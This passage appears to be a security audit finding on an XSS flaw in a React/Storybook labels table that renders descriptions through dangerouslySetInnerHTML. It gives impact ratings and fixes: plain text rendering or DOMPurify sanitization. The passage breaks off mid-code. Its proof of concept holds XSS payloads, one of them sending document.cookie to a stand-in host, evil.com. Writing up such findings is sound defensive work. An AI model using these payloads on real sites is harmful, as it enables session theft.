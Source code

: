 **Attack Vector:**
An attacker with the ability to modify label descriptions (either through malicious PRs, compromised build process, or by convincing developers to use malicious custom labels) could inject arbitrary JavaScript:

```typescript
// Malicious label injection example
const maliciousLabels = {
  'custom.label': {
    description: '<img src=x onerror="alert(document.cookie)">',
    et: 'Test',
    en: 'Test',
    ru: 'Test'
  }
};
```

**Impact Assessment:**
- **Confidentiality:** HIGH - XSS can steal authentication tokens, session cookies, and sensitive data
- **Integrity:** HIGH - Can modify page content, redirect users to phishing sites
- **Availability:** MEDIUM - Could crash the application or cause DoS
- **Scope:** Limited to Storybook documentation environment, but demonstrates unsafe pattern

**Proof of Concept:**
```typescript
// In labels-map.ts, if an attacker could inject:
'test.label': {
  description: '<img src=x onerror="fetch(\'https://evil.com/steal?cookie=\'+document.cookie)">',
  components: ['Test'],
  et: 'Test',
  en: 'Test',
  ru: 'Test',
}
```

**Remediation:**

**Option 1: Remove dangerouslySetInnerHTML (RECOMMENDED)**
```tsx
// Replace lines 56-63 in labels-table.tsx
columnHelper.accessor('description', {
  header: () => 'Description',
  cell: ({ row: { original } }) => (
    <p className="text-small">{original.description}</p>
  ),
})
```

**Option 2: Use DOMPurify for Sanitization (if HTML is required)**
```tsx
import DOMPurify from 'dompurify';

columnHelper.accessor('description', {
  header: () => 'Description',
  cell: ({ row: { original } }) => {
    const sanitizedHTML = DOMPurify.sanitize(
      linkifyStr(original.description, {
        format: () => 'MUI Pickers',
        target: '_blank',
        validate: {
          url: (value) => /^https?:\/\//.test(value) // Only allow http(s) URLs
        }
      }),
      {
        ALLOWED_TAGS: ['a'],
        ALLOWED_ATTR: ['href', 'target', 'rel'],
        ALLOWED_URI_REGEXP: /^https?:\/\//
```